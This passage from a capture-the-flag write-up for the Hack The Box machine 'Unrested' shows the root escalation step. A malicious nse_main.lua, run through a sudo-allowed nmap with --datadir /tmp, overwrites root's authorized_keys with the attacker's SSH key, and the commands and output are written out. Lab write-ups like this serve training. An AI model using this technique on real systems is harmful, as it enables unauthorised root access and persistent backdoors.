 First, we need to create a small **ECDSA 256-bit SSH key**.
```
┌──(kali㉿kali)-[~/HTB/Machines/Unrested]
└─$ ssh-keygen -t ecdsa -b 256 -f root\_ecdsa\_key
Generating public/private ecdsa key pair.
Enter passphrase for "root\_ecdsa\_key" (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in root\_ecdsa\_key
Your public key has been saved in root\_ecdsa\_key.pub
```

We now create the malicious script in **`/tmp/`** containing our payload that echoes our public key into the root's **`authorized_keys`** file.

``echo 'os.execute("echo '<public ssh key>' > /root/.ssh/authorized\_keys")' > /tmp/nse\_main.lua``


After successfully creating the malicious **`nse_main.lua`**, we can execute the nmap script with the following command:
```
zabbix@unrested:/home/matthew$ sudo /usr/bin/nmap --datadir /tmp -sC localhost
Starting Nmap 7.80 ( https://nmap.org ) at 2025-03-27 23:55 UTC
nmap.original: nse_main.cc:619: int run_main(lua_State): Assertion `lua_isfunction(L, -1)' failed. 
Aborted
```


To test if we successfully added the public key to the **`authorized_keys`** of the root user, we try to log into SSH with the **`-i`** flag for the private key that we created with the **`ssh-keygen`** command as well.

![Root SSH Access](https://github.com/HaidarCoffee/HTBWriteups/blob/main/Linux/Medium/Unrested/Screenshots/12_root_ssh.png?raw=true)

We successfully log into SSH as the **root** user and can read the **`root.txt`** file, completing the machine.

![Root.txt](https://github.com/HaidarCoffee/HTBWriteups/blob/main/Linux/Medium/Unrested/Screenshots/13_root_txt.png?raw=true)

